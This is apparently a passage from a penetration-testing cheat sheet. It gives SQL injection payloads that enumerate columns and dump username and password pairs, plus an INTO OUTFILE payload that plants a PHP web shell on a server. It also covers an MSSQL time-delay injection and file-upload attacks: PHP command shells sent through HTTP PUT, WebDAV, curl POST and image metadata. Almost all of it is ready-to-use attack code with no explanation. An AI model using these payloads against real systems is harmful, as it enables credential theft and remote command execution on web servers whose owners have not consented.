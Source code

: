 ```sql

-- Fetch Column names from Table
' UNION SELECT 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --
' union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users' --

-- Dump data from Columns using 0x3a as seperator
' UNION SELECT 1,group_concat(user,0x3a,pasword),3 from users limit 0,1--

-- Backdoor
' union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE '/var/www/html/shell.php'--
```

**MSSQL**

```sql
'; WAITFOR DELAY '00:00:30'; --
```

#### File Upload

**HTTP PUT**

```bash
nmap -p 80 192.168.1.103 --script http-put --script-args http-put.url='/dav/shell.php',http-put.file='/path/to/shell.php'

curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```

**Cadaver**

```bash
cadaver http://192.168.1.103/dav/
put /tmp/shell.php
```

**JPG to PNG shell**

```bash
# shell.php
<?php system($_GET['cmd']); ?>

# Embed shell into image metadata
exiftool "-comment<=shell.php" malicious.png

# Verify
strings malicious.png | grep system
```

**Upload Files through POST**

```bash
# POST file
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php

# POST binary data to web form
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;"
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
```

